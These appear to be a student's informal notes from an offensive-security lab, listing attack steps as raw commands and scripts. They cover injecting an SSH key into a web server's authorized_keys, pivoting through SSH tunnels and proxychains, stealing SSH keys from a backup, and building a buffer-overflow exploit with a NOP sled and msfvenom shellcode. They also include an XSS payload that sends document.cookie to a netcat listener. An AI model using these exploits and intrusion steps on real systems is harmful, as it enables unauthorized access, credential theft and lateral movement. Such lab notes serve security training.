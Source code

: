 Studying and shit for keygen
; mkdir /var/www/.ssh
; ls lisa /var/www
(in your terminal on linux) ssh-keygen -t rsa (this makes your key)
(terminal) cat ~/.ssh/id_rsa.pub
; echo "THE ENTIRE KEY" >> /var/www/.ssh/authorized_keys (including the first part, and the student@linops)
; cat /var/www/.ssh/authorized_keys
ssh -S /tmp/DEV DEV -O forward -L2222:10.208.50.42:22 SOCKET2
ssh www-data@localhost -p2222
(this may give an error, run the ssh-keygen command it shows)

Instead of /var/www , it may be within a systems user. This could be seen as /home/Comrade/.ssh/authorized_keys
If you are going into someone's ssh known as comrade. This can be applied into the lesson by using the extranet.
################################################################################################################################
Linux python script and such
################################################################################################################################
### Linux
disass <function> #
Certain scripts can take user input ./func <<<$(echo "sjdlfnmlse")
Certain scripts can take parameters ./func $(echo "ojksdmiosdkosf")
gdb ./inventory.exe -> run <<<$(pyhton peebuff.py)

vim
gdb ./func -> run -> info functions -> pdisass main -> pdisass getuserinput
If a system does not have the peda plugin, open-source research the functions and find vulnerabilities.

####
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#####
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator
Instructor pointer is what we are targeting, EIP.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.

After finding the offset, recreate script as
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env -> run -> ctrl+C DO NOT ENTER
info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
print(offset+eip+nop)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
'''
#####
make your eip your first little endian
0xf7de3b59 -> \x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
0xf7f64aeb

quit to leave gbd or shell to go to shell

msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python

#####
type shell in your peda -> env - gdb ./func -> show env -> unset env COLUMNS , unset env LINES -> show env
ctrl + c -> info proc map -> find /b (START HEX AFTER HEAP), (END IN HEX LINE), 0xff, 0xe4
(0xe4 and 0xff are jump locations)
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
If there is an error regenerate msfvenom buf lines and reattempt.
./func <<<$(python linbuff.py)

0xf7def000 0xffffe000
################################################################################################################################################################
Cross-Site Scripting:
################################################################################################################################################################
nc -l 127.0.0.1 42070
<script>document.location="http://127.0.0.1:42070/?username=" + document.cookie;</script>


When going from extranet into intra net, you are setting up your localhost like above, the: ssh -S /tmp/DEV DEV -O forward -LLOCALPORT:extranet 
is going to forward your socket that you made (the master socket named DEV) and send it to the extranet IP through the port that you made to forward it (the -L PORT)
Now when you run a localhost ssh ( ssh USERNAMEOFEXTRANET@localhost -p LOCALPORTYOUMADE) it will send you into the extranet.
Things i need to make sure work is doing this with a -D 9050 to send proxychains, but i believe it works. With this you are going to then steal the ssh key OF extranet (cat ~/.ssh/id_rsa.pub)
and save this key that you find into a file named StolenKey, from there you chmod 600 the folder, making sure to double check everything as to not overwrite your ssh key, 
and then you masquerade sshkey to get into the intranet ip you found (cat /etc/hosts , /etc/crontab) Jane will be the device name (intranet) and the IP will be intranet IP.
cat /etc/crontab wioll get you the cronjobs, youll see the backup.tar file in there.
 chmod 600 /home/student/stolenkey
 ssh -i /home/student/stolenkey jane@1.2.3.4
 
scp -P 20010 www-data@localhost:/tmp/backup.gz /home/student/backup.tar.gz
chmod 600 stolenkey1
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun

chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011

ssh -MS /tmp/hype hype -O forward student@JUMP -L 41010:192.168.28.100:2222
ssh student@localhost -p 41010 -d 9050
ssh comrade@localhost -p 41010 -L 41011:192.168.150.253:3201 -D 9050
ssh -i /home/student/stolenkey/.ssh comrade@localhost -p 41011

To get into the T3, you first need to establish connection to your T1 from your box, this is the master socket. From there you use a localhost login on the local port you opened up to connect to the jump on its open ssh port. You then set up a local port connecting to your T1's socket that now connects to the T3 on its open ssh port, and you can send proxychains up through that as well. Now you masquerade using the T1's ssh key , which is the ssh -i, connecting to the port you set up that sends yourself into the T3.

For dumb S WORD !!!!!!!! <!> <!> <!> ############################################################################################################################################
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222
ssh www-data@localhost -p 41010 -D 9050 
proxychains nmap -T5 -Pn 192.168.150.253 -p 0-65535 2>/dev/null
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa comrade@localhost -p 41011


cat /etc/rsyslog.d/50-default.conf
